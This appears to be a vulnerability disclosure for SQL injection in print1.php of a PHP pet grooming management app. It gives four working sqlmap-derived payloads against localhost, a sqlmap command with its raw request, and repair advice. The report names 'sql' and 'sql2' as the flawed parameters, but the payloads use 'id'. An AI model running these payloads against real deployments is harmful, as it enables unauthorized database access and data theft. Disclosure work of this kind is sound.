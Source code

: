 # Pet grooming management print1.php  v.1.0 sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'print1.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql","sql2" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "print1.php" file. This vulnerability stems from insufficient user input validation of the 'sql' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- UNION query
- stacked queries
- boolean-based blind

## Vulnerability location:

- 'sql','sql2' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://127.0.0.1/admin/print1.php?id=' AND 8097=(SELECT (CASE WHEN (8097=8097) THEN 8097 ELSE (SELECT 8193 UNION SELECT 9429) END))-- oJLZ
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://127.0.0.1/admin/print1.php?id=';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://127.0.0.1/admin/print1.php?id=' AND (SELECT 6055 FROM (SELECT(SLEEP(5)))Xkso)-- XqjD
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 18 columns
    Payload: http://127.0.0.1/admin/print1.php?id=' UNION ALL SELECT NULL,NULL,CONCAT(0x7170706271,0x76534756724141484c764f55575a65756c6f4875526f7164634b55514270614e74554b4c4a697544,0x716b717671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

![image-20250917114850.png](./assets/image-20250917114850.png)
 


## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
GET /admin/print1.php?id=* HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=9mjrub6b6jfcfhk0lv26kugff3
Connection: close

```

# Attack results


![image-20250917115038.png](./assets/image-20250917115038.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
